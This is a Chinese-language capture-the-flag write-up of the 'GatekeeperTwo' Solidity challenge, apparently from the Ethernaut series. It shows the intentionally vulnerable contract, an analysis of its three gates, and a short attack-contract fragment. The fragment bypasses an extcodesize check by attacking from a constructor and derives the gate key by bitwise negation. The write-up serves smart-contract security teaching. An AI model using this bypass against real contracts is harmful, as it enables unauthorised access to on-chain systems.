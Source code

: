 # 14.GatekeeperTwo
### 原题
这个守门人带来了一些新的挑战, 同样的需要注册为参赛者来完成这一关。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
### 分析
gateOne()这关很好过，直接用中间攻击合约来交互。\
gateTwo()要求里面的 `x == 0`, 这里用了内联汇编`assembly`,只有一行代码 \
`x := extcodesize(caller())`, 我们来看这两个方法的含义 \
`extcodesize` 某个地址的执行代码的大小 \
`caller()` 消息调用者（不包括 delegatecall 调用）\
`extcodesize() == 0`那是不是意味着不能是智能合约直接调用呢？\
不用合约，那怎么去攻击呢，为了满足第一个条件，中间是需要中转合约的。\
有同学会说，那就用EOA账户直接去调用，但是这又不满足第一个关卡条件了。\
这下有点懵了。\
其实在合约即将部署到链上之前，还在执行`constructor`函数阶段，这时候`extcodesize`为0，\
因为合约字节码还没写入到该合约地址上，EVM还在执行`constructor`。\
我们可以利用这点，在`constructor`里发起攻击。\
再来看gateThree()这关，要求我们找到_gateKey，正好符合以下条件: \
`uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max` \
头晕不？有个各种转换和编码。一个个来分解吧。\
`type(uint64).max` 那64位无符号的数字最大是多少，2 ** 64 - 1; \
`uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`, \
`msg.sender`是已知的，上面的一串是可以算出来的。\
假设 M 就是计算出来的结果。 \
`^ uint64(_gateKey)` 位预算`异或`, 相同为`0`, 不同为`1`; \
` M `^ uint64(_gateKey) = 2 ** 64 - 1`, \
`2 ** 64 - 1`用二进制表示就是64个1。 \
根据`异或`的运算法则，那就意味着我只要把`M`按位取反就可以得到`uint64(_gateKey)`。\
我们先来试试写个攻击合约。/
```solidity
constructor(address _gatekeeper) {
        gatekeeper = IGatekeeper(_gatekeeper);
        attack();
    }

    function attack() public {
       // 首先计算出 uint64 _gateKey
       uint64 _gateKey = ~uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
       
      (bool ok,) = address(gatekeeper).call(abi.encodeWithSignature("enter(bytes8)", bytes8(_gateKey)));
      require(ok, "call failed");

    }
```
### 总结
如果我们熟悉智能合约整个发布流程那就可以很快找到攻击方法。所以学习智能合约开发，不仅仅只是编程语言，而是要更多的去了解底层的原理才会有更深的理解。